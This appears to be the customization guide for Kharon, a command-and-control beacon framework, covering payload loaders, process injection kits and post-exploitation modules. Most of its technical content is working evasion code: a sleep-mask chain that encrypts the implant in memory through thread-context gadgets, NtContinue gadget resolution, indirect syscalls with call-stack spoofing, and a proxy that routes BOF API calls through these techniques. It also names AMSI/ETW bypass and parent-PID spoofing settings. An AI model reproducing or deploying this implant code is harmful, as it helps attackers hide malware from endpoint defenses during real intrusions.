


# Kharon Customization Guide

This document provides technical guidance for customizing and extending the Kharon framework, including payload generation, process injection, evasion techniques, and post-exploitation capabilities.

---

## Binary Payload Output

> **Note:** The current implementation is under active development and will be improved in future updates.

The `exe`, `dll`, and `svc` formats use a basic loader that executes the Kharon shellcode. To use a custom loader, modify the files in [`agent_kharon/src_loader`](agent_kharon/src_loader).

Currently, the shellcode is placed in the `.text` section and executed directly. You can modify how the shellcode is used by editing the `gen_shellcode_header` function in [`listener_kharon_http/src_server/pl_utils.go`](listener_kharon_http/src_server/pl_utils.go). This function is called by `AgentGenerateBuild` in [`agent_kharon/src_server/pl_agent.go`](agent_kharon/src_server/pl_agent.go).



To control compilation flags, modify the `AgentGenerateBuild` function:



---

## Process Injection Kit

Kharon utilizes commands such as `postex` and `scinject`, which use the process injection kit for injection behavior control. You can customize this behavior by editing the following files located in `agent_kharon/src_modules/kit/`:

- [`kit_explicit_inject.cc`](../agent_kharon/src_core/kit/kit_explicit_inject.cc) — Explicit injection behavior
- [`kit_spawn_inject.cc`](../agent_kharon/src_core/kit/kit_spawn_inject.cc) — Spawn injection behavior

For more details about `postex` and `scinject`, see the [Commands documentation](./Commands.md).

### Process Creation

The process creation behavior is defined in [`kit_process_creation.cc`](../agent_kharon/src_modules/kit/kit_process_creation.cc).

---

## Sleep Mask and Heap Obfuscation

The beacon masks itself in memory and obfuscates heap allocations during sleep time when enabled via the UI or at runtime using the `config mask*` command. The implementation uses timers with RBX gadget and NtContinue gadget techniques, configuring one of the obfuscation chains to set the context of a random thread to the beacon's main thread.

You can review and modify the obfuscation code in [`agent_kharon/src_beacon/Source/Evasion/MemObf.cc`](agent_kharon/src_beacon/Source/Evasion/MemObf.cc).

### Obfuscation Chain

The following chain handles the sleep mask obfuscation:

```cpp
    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Ntdll.NtWaitForSingleObject );
    Ctx[ic].Rcx = U_PTR( EventStart );
    Ctx[ic].Rdx = FALSE;
    Ctx[ic].R9  = NULL;
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Ntdll.NtGetContextThread );
    Ctx[ic].Rcx = U_PTR( MainThreadHandle );
    Ctx[ic].Rdx = U_PTR( &CtxBkp );
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget ) ;
    Ctx[ic].Rbx = U_PTR( &Self->Ntdll.NtSetContextThread ); 
    Ctx[ic].Rcx = U_PTR( MainThreadHandle );
    Ctx[ic].Rdx = U_PTR( &CtxSpf );
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Krnl32.VirtualProtect );
    Ctx[ic].Rcx = U_PTR( Self->Session.Base.Start );
    Ctx[ic].Rdx = Self->Session.Base.Length;
    Ctx[ic].R8  = PAGE_READWRITE;
    Ctx[ic].R9  = U_PTR( &OldProtection );
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Cryptbase.SystemFunction040 );
    Ctx[ic].Rcx = U_PTR( Self->Session.Base.Start );
    Ctx[ic].Rdx = Self->Session.Base.Length;
    ic++;
    
    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Krnl32.WaitForSingleObjectEx );
    Ctx[ic].Rcx = U_PTR( NtCurrentProcess() );
    Ctx[ic].Rdx = Time;
    Ctx[ic].R8  = FALSE;
    ic++;
        
    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Cryptbase.SystemFunction041 );
    Ctx[ic].Rcx = U_PTR( Self->Session.Base.Start );
    Ctx[ic].Rdx = Self->Session.Base.Length;
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Krnl32.VirtualProtect );
    Ctx[ic].Rcx = U_PTR( Self->Session.Base.Start );
    Ctx[ic].Rdx = Self->Session.Base.Length;
    Ctx[ic].R8  = PAGE_EXECUTE_READ;
    Ctx[ic].R9  = U_PTR( &OldProtection );
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Ntdll.NtSetContextThread );
    Ctx[ic].Rcx = U_PTR( MainThreadHandle );
    Ctx[ic].Rdx = U_PTR( &CtxBkp );
    ic++;

    Ctx[ic].Rip = U_PTR( Self->Config.Mask.JmpGadget );
    Ctx[ic].Rbx = U_PTR( &Self->Krnl32.SetEvent );
    Ctx[ic].Rcx = U_PTR( EventEnd );
    ic++;
```

### NtContinue Gadget

The NtContinue gadget is resolved as follows:

```cpp
this->Config.Mask.NtContinueGadget = ( LdrLoad::_Api( this->Ntdll.Handle, Hsh::Str( "LdrInitializeThunk" ) ) + 19 );
```

Feel free to improve or modify the obfuscation code as needed.

---

## Stack Spoofing, Indirect Syscalls, and BOF API Proxy

The agent UI compilation provides options for stack spoofing, indirect syscalls, and BOF API proxy. The implementations for these features are located in the [`agent_kharon/src_beacon/Source/Internals`](agent_kharon/src_beacon/Source/Internals) folder.

### Memory Allocation Example

The following example demonstrates how memory allocation handles indirect syscalls and stack spoofing:

```cpp
auto DECLFN Memory::Alloc(
    _In_  PVOID   Base,
    _In_  SIZE_T  Size,
    _In_  ULONG   AllocType,
    _In_  ULONG   Protect,
    _In_  HANDLE  Handle
) -> PVOID {
    UINT32 Flags = Self->Config.Syscall;

    NTSTATUS Status      = STATUS_UNSUCCESSFUL;
    PVOID    BaseAddress = Base;
    SIZE_T   RegionSize  = Size;

    if ( ! Flags ) {
        KhDbg("execute without syscall and spoof");
        if ( Handle == NtCurrentProcess() ) {
            return Self->Krnl32.VirtualAlloc( Base, Size, AllocType, Protect );
        } else {
            return Self->Krnl32.VirtualAllocEx( Handle, Base, Size, AllocType, Protect );
        }
    }

    UPTR Address = SYS_ADDR( Sys::Alloc );
    UPTR ssn = SYS_SSN( Sys::Alloc );

    KhDbg("executing indirect syscall with spoof");
    KhDbg("address: %p", Address);
    KhDbg("ssn: %x", ssn);

    Status = Self->Spf->Call(
        Address, ssn, (UPTR)Handle, (UPTR)&BaseAddress,
        0, (UPTR)&RegionSize, (UPTR)AllocType, (UPTR)Protect
    );
    
    Self->Usf->NtStatusToError( Status );
    
    return NT_SUCCESS( Status ) ? BaseAddress : nullptr;
}
```

### Stack Spoofing Implementation

The `Self->Spf->Call` function is defined in [`agent_kharon/src_beacon/Source/Evasion/Spoof.cc`](agent_kharon/src_beacon/Source/Evasion/Spoof.cc):

```cpp
auto DECLFN Spoof::Call(
    _In_ UPTR Fnc, 
    _In_ UPTR Ssn, 
    _In_ UPTR Arg1,
    _In_ UPTR Arg2,
    _In_ UPTR Arg3,
    _In_ UPTR Arg4,
    _In_ UPTR Arg5,
    _In_ UPTR Arg6,
    _In_ UPTR Arg7,
    _In_ UPTR Arg8,
    _In_ UPTR Arg9,
    _In_ UPTR Arg10,
    _In_ UPTR Arg11,
    _In_ UPTR Arg12
) -> UPTR {
    Self->Spf->Setup.First.Ptr  = (UPTR)Self->Ntdll.RtlUserThreadStart+0x21;
    Self->Spf->Setup.Second.Ptr = (UPTR)Self->Krnl32.BaseThreadInitThunk+0x14;

    Self->Spf->Setup.First.Size  = Self->Spf->StackSizeWrapper( Self->Spf->Setup.First.Ptr );
    Self->Spf->Setup.Second.Size = Self->Spf->StackSizeWrapper( Self->Spf->Setup.Second.Ptr );

    do {
        this->Setup.Gadget.Ptr  = Self->Usf->FindGadget( Self->KrnlBase.Handle, 0x23 );
        this->Setup.Gadget.Size = (UPTR)this->StackSizeWrapper( this->Setup.Gadget.Ptr );

        KhDbg("gadget: %p", this->Setup.Gadget.Ptr, this->Setup.Gadget.Size);
    } while ( ! this->Setup.Gadget.Size );

    this->Setup.Ssn      = Ssn;
    this->Setup.ArgCount = 12;

    return SpoofCall( Arg1, Arg2, Arg3, Arg4, Fnc, (UPTR)&this->Setup, Arg5, Arg6, Arg7, Arg8, Arg9, Arg10, Arg11, Arg12 );
}
```

The assembly responsible for stack restoration, spoofing, and related operations can be found in [`agent_kharon/src_beacon/Source/Asm/Spoof.x64.asm`](agent_kharon/src_beacon/Source/Asm/Spoof.x64.asm).

### BOF API Proxy

The BOF API Proxy intercepts API calls from BOF modules and redirects them through the beacon's internal API handlers, enabling stack spoofing and indirect syscalls for BOF execution. The proxy checks if a requested API is in the supported hook table, located in [`agent_kharon/src_beacon/Source/Evasion/Coff.cc`](agent_kharon/src_beacon/Source/Evasion/Coff.cc) within the `Coff::RslApi` function:

```cpp
//
// if hook bof enabled apply the spoof/indirect
//        
if ( Self->Config.BofProxy ) {
    for ( INT i = 0; i < 15; i++ ) {
        if ( Hsh::Str( FncName ) == this->HookTable[i].Hash ) {
            return (PVOID)this->HookTable[i].Ptr;
        }
    }
}
```

Example proxy function for `VirtualAlloc`:

```cpp
auto DECLFN Coff::VirtualAlloc(
    PVOID Address, 
    SIZE_T Size, 
    DWORD  AllocType, 
    DWORD  Protect
) -> PVOID {
    G_KHARON
    return Self->Mm->Alloc( Address, Size, AllocType, Protect );
}
```

This redirects execution to `Memory.cc::Memory::Alloc`, which handles the indirect syscall and stack spoofing as shown above.

---

## Post-Exploitation Loader

The kit responsible for loading and handling post-exploitation shellcode in memory is located in [`agent_kharon/src_modules/kit/kit_postex.cc`](agent_kharon/src_modules/kit/kit_postex.cc).

---

## BeaconInformation Function

The `BeaconInformation` function gathers various configuration fields from the beacon, including:

- `parent_id_spoof` — Parent process ID spoofing configuration
- `blockdlls` — DLL blocking settings
- `amsi_etw_bypass` — AMSI and ETW bypass configuration
- Additional runtime settings

The structure definition is available in [`agent_kharon/src_modules/Include/beacon.h`](agent_kharon/src_modules/Include/beacon.h).
